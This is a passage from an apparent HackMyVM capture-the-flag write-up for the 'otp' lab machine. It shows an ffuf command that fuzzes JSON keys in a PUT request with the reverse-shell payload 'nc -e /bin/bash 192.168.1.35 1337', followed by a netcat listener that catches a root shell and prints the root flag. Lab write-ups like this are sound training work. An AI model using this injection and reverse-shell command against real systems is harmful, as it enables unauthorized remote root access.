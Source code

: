 ```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# ffuf -c -w payloads -u http://otp.hmv:5001/ -X PUT -H 'Content-Type: application/json' -d '{"FUZZ": "nc -e /bin/bash 192.168.1.35 1337"}'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : PUT
 :: URL              : http://otp.hmv:5001/
 :: Wordlist         : FUZZ: payloads
 :: Header           : Content-Type: application/json
 :: Data             : {"FUZZ": "nc -e /bin/bash 192.168.1.35 1337"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [130/130] :: Job [1/1] :: 251 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
``` 
At some point, I got the shell.

### reverse shell as root
```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.1.35] from (UNKNOWN) [192.168.1.34] 38480
id
uid=0(root) gid=0(root) groups=0(root)


flag_r00t.txt
8a2d55707a9084982649dadc04b426a0
```
